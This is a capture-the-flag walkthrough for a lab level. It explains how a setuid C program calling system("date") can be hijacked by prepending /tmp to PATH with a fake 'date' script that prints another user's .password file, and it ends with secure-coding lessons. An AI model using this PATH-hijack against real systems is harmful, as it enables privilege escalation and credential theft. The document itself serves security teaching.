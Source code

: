 ## Level 1: don't use the system function in C

When the live CD starts,
you are automatically logged in as user `level00`.
The "message of the day" says:

> In /home/level01/.password is the password of the level01 user.
> Your mission, should you choose to accept it, is to read that
> file and login as level01 to advance to the next level.
> You may find the files in /levels/level01 useful.

All the levels on this CD work roughly the same way:

- The password of each `levelXX` user is stored in a file named `.password` in their home directory.

- The user home directories are well protected:
  only their owners have access (`0700` mode)

- The vulnerable programs and their source code are stored in the `/levels/levelXX` directories.

- The explanation of the level is shown when you login,
  it comes from the file `motd.txt` in the user's home directory,
  so you can re-read it anytime.

- The explanation of the level always contains a hint to beat the challange, so it's good to read it carefully.

Let's get started!
Taking the hint from the message after login,
look at the files in the `/levels/level01` directory:

    level00@box:~$ ls -l /levels/level01
    total 32
    -rw-rw-r--  1 level01  level01    69 Mar  9 19:08 Makefile
    -rwsr-xr-x  1 level01  level01  7352 Mar  9 19:08 level01
    -rw-rw-r--  1 level01  level01   152 Mar  9 19:08 level01.c

Notice the user permission `rws` on the file `level01`.
The setuid bit is set,
so when we run this program,
it will have the access permissions of `level01`,
the owner of the file,
instead of our current user.
Let's run it to see what it does:
```
level00@box:~$ /levels/level01/level01
Current time: Tue Sep  3 23:55:54 UTC 2013
```

It simply prints the current date and time.
Let's see how this is implemented in the source code:
```
printf("Current time: ");
fflush(stdout);
system("date");
return 0;
```

Instead of using a native C function to get the date,
the program calls the `system` function to run the `date` command.
We can look up what `system` does exactly with `man system`:
it executes the specified command by calling `/bin/sh -c`.

Consider how the shell executes a command that is not an absolute path:
for each directory defined in `PATH`,
it checks if there is an executable file,
and it runs the first match.
We can easily exploit this by creating our own script named `date`,
prepend its base directory to `PATH`,
and make it print the contents of `/home/level01/.password`.
Here we go:

```
level00@box:~$ echo '#!/bin/cat /home/level01/.password' > /tmp/date
level00@box:~$ chmod +x /tmp/date 
level00@box:~$ PATH=/tmp /levels/level01/level01
Current time: aepeefoo
#!/bin/cat /home/level01/.password
```

Bingo! Now we can login as user `level01` using the revealed password.

### Lessons to learn

- Read well the documentation, especially the warnings about usage:
  `man system` warns that it should not be used in setuid programs.

- Don't use the `system` function.
  Or if you must, at least use it only with absolute paths.

- Beware of environment variables that users can manipulate to alter the behavior of your programs.

- Beware of setuid programs.

